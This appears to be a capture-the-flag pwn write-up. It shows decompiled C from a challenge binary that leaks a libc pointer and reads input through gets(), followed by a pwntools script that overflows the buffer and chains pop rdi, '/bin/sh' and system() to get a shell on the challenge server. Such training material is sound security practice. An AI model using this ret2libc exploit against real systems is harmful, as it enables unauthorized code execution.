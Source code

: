 ```c
  {
    v7 = rand() % 42 + 2;
    printf("0x44");
    for ( j = 0LL; j < v7; ++j )
      printf("4F");
    printf("4D");
    if ( i == 42 )
    {
      v3 = &wctrans;
      printf("%p", &wctrans);
    }
  }
  printf("\nEnter authcode: ");
  memset(v6, 0, 0x80uLL);
  gets(v6, v3, v6);
  puts("Failed Login");
  return 0;
}
```

exp: 

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe

#p = process()
p = remote('chall.ehax.tech', 4269)

p.recvuntil(b'0x7f')
libc.address = int((b'0x7f'+ p.recv(10)),16)  - 0x1255e0
pop_rdi = 0x000000000002164f+libc.address
payload = b'a'*0xa8 + p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(pop_rdi+1) + p64(libc.sym.system)
input()
p.sendlineafter(b'Enter authcode: ',payload)
p.interactive()
```
